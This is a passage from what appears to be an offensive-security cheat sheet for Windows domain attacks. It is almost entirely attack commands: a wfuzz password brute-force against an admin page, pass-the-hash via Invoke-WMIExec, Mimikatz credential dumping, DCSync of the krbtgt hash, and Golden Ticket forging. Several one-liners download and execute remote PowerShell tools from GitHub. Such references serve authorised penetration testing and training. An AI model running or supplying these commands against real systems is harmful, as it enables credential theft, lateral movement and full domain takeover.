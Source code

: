```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
  
  
 <a name="pth"></a> <h3> Pass The Hash </h3>
  
  
  <b> Invoke a command Remotely </b>
  
  <pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/master/Invoke-WMIExec.ps1')
 
 Invoke-WMIExec -Target SVHOST2  -Username Administrator -Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "powershell whoami | out-file \\SVHOST2\C$\windows\bitch.txt"
</pre>

  <b> Invoke Mimikatz Remotely </b>
  
  <pre>Invoke-WMIExec -Target SVHOST2  -Username Administrator
-Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "powershell -Enc SQBFA...AoA"</pre>

![image](https://user-images.githubusercontent.com/7115563/34455757-1f6aed1c-ed86-11e7-9415-595fa5e8d6e7.png)
  
  <b> Pass The Hash with Mimikatz </b>
  
  <pre> Invoke-Mimikatz -Command '"sekurlsa::pth /user:adm_maint /ntlm:cbe55f143fcb6d4687583af520123b89 /domain:lazuli"'</pre>
  
  
  <a name="krb"></a><h3> Kerberos </h3>
  
  
  <b> Generate Golden Ticket (Domain Admin Required) </b>
  
  <pre>Invoke-Mimikatz -Command '"lsadump::dcsync /domain:LAZULI.CORP /user:krbtgt"'</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455725-7230ee30-ed85-11e7-9333-16372355ce60.png)
  
  ![image](https://user-images.githubusercontent.com/7115563/34455734-89934d5c-ed85-11e7-960e-9659e099c9df.png)
  
  <pre>Invoke-Mimikatz  -Command '"kerberos::golden /user:adon /domain:LAZULI.CORP /krbtgt:ca1c2aeda9160094be9971bdc21c50aa /sid:S-1-5-21-1238634245-2147606590-2801756923 /id:500 /ticket:admin.kirbi /ptt"</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455745-9edd0360-ed85-11e7-84f0-6d62e621613b.png)
  
  <pre>Invoke-Mimikatz  -Command '"kerberos::ptt admin.kirbi"'</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455747-b285372a-ed85-11e7-9374-c481108db77e.png)
  
  ![image](https://user-images.githubusercontent.com/7115563/34455748-bb0512c6-ed85-11e7-8d40-b6516cf8b0f3.png)
  
 <a name="miscwin"></a><h3> Miscellaneous </h3>
  
 <b> Invoke Mimikatz </b>
  
  <pre>IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz</pre>
  
```